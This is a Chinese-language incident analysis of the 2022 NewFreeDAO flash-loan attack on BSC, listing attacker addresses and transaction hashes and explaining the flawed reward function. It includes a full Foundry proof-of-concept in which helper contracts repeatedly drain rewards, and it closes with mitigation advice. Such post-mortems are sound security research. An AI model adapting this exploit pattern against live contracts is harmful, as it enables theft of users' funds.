








# NewFreeDAO@falshloan@reward

## 事件背景

NewFreeDAO未开源的奖励合约遭受了闪电贷攻击。奖励合约是指：存款时间越长、持有代币越多，用户可以获得的奖励代币就越多。

- 时间：2022.09.08
- 损失金额：$125M

## 交易

- 攻击者EOA账户：[0x22c9736d4fc73a8fa0eb436d2ce919f5849d6fd2](https://bscscan.com/address/0x22c9736d4fc73a8fa0eb436d2ce919f5849d6fd2 ) 
- 攻击合约：[0xa35ef9fa2f5e0527cb9fbb6f9d3a24cfed948863](https://bscscan.com/address/0xa35ef9fa2f5e0527cb9fbb6f9d3a24cfed948863)
- 存在漏洞的奖励合约（未开源）：[0x8b068e22e9a4a9bca3c321e0ec428abf32691d1e](https://bscscan.com/address/0x8b068e22e9a4a9bca3c321e0ec428abf32691d1e ) 
- 攻击事件hash：[0x1fea385acf7ff046d928d4041db017e1d7ead66727ce7aacb3296b9d485d4a26](https://bscscan.com/tx/0x1fea385acf7ff046d928d4041db017e1d7ead66727ce7aacb3296b9d485d4a26)
- 涉及的池子
  - WBNB-USDT：[0x16b9a82891338f9ba80e2d6970fdda79d1eb0dae](https://bscscan.com/address/0x16b9a82891338f9ba80e2d6970fdda79d1eb0dae ) 
  - USDT-NFD：[0x26c0623847637095655b2868c3182b2285bdaeaf](https://bscscan.com/address/0x26c0623847637095655b2868c3182b2285bdaeaf)
- 赃款转移：获利的4481枚WBNB中的2000枚兑换成55.7万枚USDT
  - [0x8c035fc9c3d944b3dd4a0ea721c119240cb624e79b7625a16173ad6682410599](https://bscscan.com/tx/0x8c035fc9c3d944b3dd4a0ea721c119240cb624e79b7625a16173ad6682410599 ) 
  - [0xda4b4de6ecacfe9b8b60167a2010630aeec103ab51920eb2e1b94ba1fef6c95b](https://bscscan.com/tx/0xda4b4de6ecacfe9b8b60167a2010630aeec103ab51920eb2e1b94ba1fef6c95b )

## 资金流向

因为此次交易涉及到的地址和资金太多了，仅截取大额资金流向（小额的都是-0.0000000000000001）



## 攻击过程

1.黑客通过闪电贷获得250个WBNB



2.在pancake中，将闪电贷得到的所有WBNB换成USD，然后进一步换成NFD，得到6313508个NFD



3.利用合约漏洞



4.然后就是不断地创建辅助合约，重复相同的攻击获利



## 攻击详细分析

从攻击过程我们可以分为三部分：闪电贷借来资金，创建辅助合约并发送资金到辅助合约，辅助合约调用漏洞合约的`0x6811e3b9()`进行获利。因此，此次攻击的重点也就只有漏洞合约的`0x6811e3b9()`，我们接下来对它进行分析。



由于这个漏洞合约并没有开源，因此我们对他进行[反编译](https://library.dedaub.com/decompile?md5=6909ade6e0864fd7845e35a0650eaa19)，分析结果如下图，大致意思如下：

- 由于调用一次`0x6811e3b9()`获取利润奖励之后，调用者的时间戳将被更新，也就是说你领取完了这段时间内的奖励，再次领取将会出现零奖励的情况。对于这个问题，黑客采用的方式是：用攻击合约不断创建新的辅助合约，将资金转到辅助合约，用辅助合约来调用`0x6811e3b9()`，因为每一个没有调用过此方法的地址，其时间戳都将被设置为`owner_d[msg.sender] = stor_6`。
- v3是实际发送的奖励金额，是根据项目方的公式来计算得到的，但是我看到计算方式`_SafeDiv()`仅仅是简单的除法，应该会存在价格操纵的可能性（只是本次攻击并没有涉及到）。
- 模式很像是项目方会奖励给到拥有NFD的用户：用户拥有越多的NFD，拥有的时间越长，得到的奖励就越多。但是这种计算奖励的方式过于简单，容易被黑客投机取巧，就比如这次的闪电贷攻击，黑客通过闪电贷在短时间内急剧增加NFD余额，并且可以立刻判断和领取奖励。比较合适的方法比如是采用快照的方式，或者对拥有者进行时间加权等。



调用之后就获利了（其中一个辅助合约）



## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "../interface.sol";
import "./attackHelper.sol";

contract Attacker is Test {

    IPancakeRouter public pancakeRouter = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));
    IERC20 public wbnb = IERC20(address(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c));
    IDVM public DVM_flashloan = IDVM(address(0xD534fAE679f7F02364D177E9D44F1D15963c0Dd7));
    address public usdt = 0x55d398326f99059fF775485246999027B3197955;
    address public nfd = 0x38C63A5D3f206314107A7a9FE8cBBa29D629D4F9;
    address constant toAttack = 0x8B068E22E9a4A9bcA3C321e0ec428AbF32691D1E;

    address public attacker = 0x22C9736D4Fc73A8fa0EB436D2ce919F5849D6fD2;

    function setUp() public {
        vm.createSelectFork("bsc", 21_140_434);

        vm.label(address(pancakeRouter), "pancakeRouter");
        vm.label(address(wbnb), "wbnb");
        vm.label(address(DVM_flashloan), "DVM_flashloan");
        vm.label(address(usdt), "usdt");
        vm.label(address(nfd), "nfd");
        vm.label(address(toAttack), "toAttack");
    }

    function test_Exploit() public {
        console.log("[before flashloan] address(this) WBNB balance",wbnb.balanceOf(address(this)));

        // 进行闪电贷，获得WBNB
        bytes memory data = abi.encode(DVM_flashloan, wbnb, 250 * 1e18);
        // 写接口的时候，flashLoan()没有returns(bool)!!!!!!!!!
        DVM_flashloan.flashLoan(0, 250 * 1e18, address(this), data);
        
        console.log("[after pay back flashloan] address(this) WBNB balance",wbnb.balanceOf(address(this)));
    }

    // 闪电贷回调函数，攻击逻辑写在这里
    function DVMFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{
        console.log("[get flashloan] address(this) WBNB balance",wbnb.balanceOf(address(this)));

        // 将得到的WBNB换成NFD
        address[] memory path = new address[](3);
        path[0] = address(wbnb);
        path[1] = usdt;
        path[2] = nfd;
        IERC20(wbnb).approve(address(pancakeRouter), type(uint256).max); // 交换之前需要approve给router
        pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            quoteAmount, 0, path, address(this), block.timestamp
        );

        // 不断创建辅助合约来攻击
        for (uint256 i = 0; i < 50; i++) {
            AttackHelper attackHelper = new AttackHelper();
            uint256 nfdAmount = IERC20(nfd).balanceOf(address(this));
            IERC20(nfd).transfer(address(attackHelper), nfdAmount);
            attackHelper.attack();
        }

        // 查看本攻击合约的NFD余额
        uint256 nfdBalance = IERC20(nfd).balanceOf(address(this));

        // 将NFD换回成WBNB
        path[0] = nfd;
        path[1] = usdt;
        path[2] = address(wbnb);
        IERC20(nfd).approve(address(pancakeRouter), type(uint256).max);
        pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            nfdBalance, 0, path, address(this), block.timestamp
        );

        // 闪电贷还钱
        console.log("[after attack] address(this) WBNB balance", wbnb.balanceOf(address(this)));
        wbnb.transfer(msg.sender, 250 * 1e18);

        // 看看跟攻击事件中的获利是否相同
        assertEq(2952971303206254291601, wbnb.balanceOf(address(this)));
    }

}
```

```solidity
pragma solidity ^0.8.10;

import "../interface.sol";

contract AttackHelper {
    address constant toAttack = 0x8B068E22E9a4A9bcA3C321e0ec428AbF32691D1E;
    address constant nfd = 0x38C63A5D3f206314107A7a9FE8cBBa29D629D4F9;

    function attack() external {
        // 调用漏洞合约的方法获利
        toAttack.call(abi.encode(bytes4(0x6811e3b9)));

        // 将本金和获利一同发送到攻击合约
        uint256 bal = IERC20(nfd).balanceOf(address(this));

        IERC20(nfd).transfer(msg.sender, bal);
    }
}
```

## 建议

- 领取奖励的方法应该设置防止闪电贷攻击，采用快照、或时间加权、时间锁等方式
- （本次攻击并没有涉及，但是存在此问题）计算奖励数量不应该这么简单的用一个除法来计算，应该使用加权等方式，否则很有可能出现价格操纵的问题


